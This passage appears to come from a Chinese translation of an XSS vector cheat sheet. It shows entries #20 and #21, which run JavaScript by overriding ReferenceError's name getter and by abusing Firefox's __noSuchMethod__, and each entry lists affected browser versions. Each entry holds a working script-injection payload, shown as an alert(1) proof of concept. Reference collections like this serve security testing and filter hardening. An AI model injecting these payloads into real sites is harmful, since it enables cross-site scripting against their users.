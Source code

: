*   [https://developer.mozilla.org/en/Sharp_variables_in_JavaScript](https://developer.mozilla.org/en/Sharp_variables_in_JavaScript)

reporter：.mario

### 通过覆盖ReferenceError对象执行Javascript[#20](#20)[test](test/#20)

这个Javascript向量展示了如何覆盖ReferenceError对象,并引起错误,从而导致Javascript执行.


```
<script>ReferenceError.prototype.__defineGetter__('name', function(){alert(1)}),x</script>
```

在用户可以注入脚本的情况下不要相信DOM,即便是DOM属性的访问.

*   opera 8.x
*   opera 11.01

*   firefox 1.x
*   firefox 15.0

*   chrome 3.0
*   chrome 9.0

*   safari 4.0
*   safari 5.1.7

*   javascript
*   opera
*   firefox
*   chrome
*   safari
*   ReferenceError
*   overwrite

*   [https://developer.mozilla.org/en/Core_JavaScript_1.5_Reference/Global_Functions/ReferenceError](https://developer.mozilla.org/en/Core_JavaScript_1.5_Reference/Global_Functions/ReferenceError)

reporter：.mario

### 通过私有属性 __noSuchMethod__执行Javascript[#21](#21)[test](test/#21)

Firefox支持非标准的属性 __noSuchMethod__ ,它可以使我们在访问一个对象不存在的方法时自动拦截.我们可以利用它执行Javascript而不需要使用funtion(){...}这样的方法.


```
<script>Object.__noSuchMethod__ = Function,[{}][0].constructor._('alert(1)')()</script>
```

*   firefox 3.5
*   firefox latest

*   xss
*   javascript
*   firefox
*   __noSuchMethod__
*   proprietary
